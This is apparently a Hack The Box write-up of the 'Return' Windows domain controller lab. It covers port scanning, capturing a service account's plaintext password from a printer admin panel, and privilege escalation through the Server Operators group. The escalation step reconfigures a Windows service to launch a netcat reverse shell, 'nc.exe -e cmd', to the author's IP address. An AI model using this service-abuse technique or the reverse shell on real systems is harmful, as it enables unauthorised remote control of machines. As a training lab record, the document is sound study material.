 ```yaml
---
title: "Return"
date: 2024-05-11
categories: HTB
tags: ["htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "return", "penetration testing", "writeup", "htb"]
---
```


# Return

# Return
OS: Windows(AD)
Difficulty: Easy
Date: 2025-03-31
# Credentials
```text
svc-printer : 1edFg43012!!
```

# Summary


# Credentials
| username    | password     | hash | source |
| ----------- | ------------ | ---- | ------ |
| svc-printer | 1edFg43012!! |      |        |
|             |              |      |        |
 
# Todo 
- [ ] 

# Enumeration
## Nmap
```sh
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-31 05:45:07Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

- [ ] 80
	- [ ] directory fuzzing
	- [x] web
- [x] SMB
- [ ] LDAP
- [ ] 464
- [ ] 593
- [ ] 636
- [ ] 3269
- [ ] 5985

## 80
![[/assets/images/return1.png]]

![[/assets/images/return2.png]]

Add my IP address to Server Address

```sh
sudo responder -I tun0
```

![[/assets/images/return3.png]]

## SMB
![[/assets/images/return4.png]]

- [x] add `return.local` to `/etc/hosts`
- [ ] spider_plus

```sh
smbclient.py '[domain]/[user]:[pass]@[ip/host]' -k -no-pass - Kerberos auth

smbclient 'return.local/svc-printer:1edFg43012!!' -k -no-pass -Kerberos auth
```
### Share Enum
#### ADMIN$
![[/assets/images/return5.png]]
# Foothold
Evil-winrm as svc-printer
![[/assets/images/return6.png]]

# Privilege Escalation
runphp.cmd
![[/assets/images/return7.png]]
![[/assets/images/return8.png]]

Server Operators 

There may be others of interest, but Server Operators jumps out immediately. [This group](https://ss64.com/nt/syntax-security_groups.html#:~:text=A%20built%2Din%20group%20that,and%20shut%20down%20the%20computer.) can do a lot of things:

- A built-in group that exists only on domain controllers. 
- By default, the group has no members. 
- Server Operators can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer. 
- Default [User Rights](https://ss64.com/nt/ntrights.html): Allow log on locally: SeInteractiveLogonRight Back up files and directories: SeBackupPrivilege Change the system time: SeSystemTimePrivilege Change the time zone: SeTimeZonePrivilege Force shutdown from a remote system: SeRemoteShutdownPrivilege Restore files and directories SeRestorePrivilege Shut down the system: SeShutdownPrivilege

```sh
# install windows binaries
sudo apt-install windows-binaries
# copy nc to pwd
sudo cp /usr/share/windows-resources/binaries/nc.exe .
```

Upload nc.exe to the target device

![[/assets/images/return9.png]]

```sh
*Evil-WinRM* PS C:\programdata> sc.exe config VSS binpath="C:\programdata\nc.exe -e cmd 10.10.14.7 443"
```

![[/assets/images/return10.png]]

![[/assets/images/return11.png]]

